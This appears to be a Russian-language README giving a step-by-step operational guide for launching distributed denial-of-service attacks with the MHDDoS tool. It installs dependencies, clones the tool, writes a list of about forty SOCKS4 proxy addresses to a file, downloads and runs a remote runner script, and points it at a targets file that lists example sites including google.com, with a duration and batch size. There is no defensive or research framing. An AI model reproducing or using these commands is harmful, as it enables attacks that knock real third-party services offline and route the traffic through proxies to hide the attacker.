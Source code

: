 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Сохраните прокси лист

```
echo 'socks4://115.239.21.111:23456
socks4://119.3.231.232:8001
socks4://123.56.29.180:10808
socks4://178.237.38.22:13292
socks4://192.252.215.5:16137
socks4://93.190.141.62:9050
socks4://192.252.215.5:16137
socks4://72.195.34.35:27360
socks4://162.14.135.190:10800
socks4://80.75.3.74:1080
socks4://114.88.230.134:1080
socks4://98.162.96.53:10663
socks4://119.3.231.232:8001
socks4://72.195.34.60:27391
socks4://119.3.231.232:8001
socks4://198.8.94.170:4145
socks4://142.93.143.155:9010
socks4://192.252.211.197:14921
socks4://192.111.135.17:18302
socks4://72.195.34.35:27360
socks4://175.24.235.242:7891
socks4://98.162.25.23:4145
socks4://98.162.25.4:31654
socks4://174.77.111.198:49547
socks4://192.111.137.35:4145
socks4://192.111.137.35:4145
socks4://98.162.25.7:31653
socks4://78.47.230.141:17027
socks4://128.199.245.23:24527
socks4://222.212.85.16:7000
socks4://51.222.13.193:10084
socks4://121.205.228.46:8003
socks4://1.14.104.55:15229
socks4://192.111.135.21:4145
socks4://192.111.135.21:4145
socks4://72.195.34.60:27391
socks4://101.35.115.136:20012
socks4://142.93.143.155:9010
socks4://98.162.25.4:31654
socks4://175.24.235.242:7891
socks4://192.111.137.34:18765' > files/proxies/0
 ```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. сделайте раннер запускаемым

```
chmod +x ./runner.sh
```

6. Создайте targets.csv файл с целями в следующем формате (без запятой после последнего значения!)
```
localhost;127.0.0.1;
google.com;172.217.19.78;443;80;8080;
```

7. Запустите раннер передав файл с целями и продолжительность выполнения в секундах и размером "пачки" целей для параллельной обработки (зависит от сервера но больше 5 ставить не рекоммендуется)
```
./runner.sh targets.csv 300 5
```
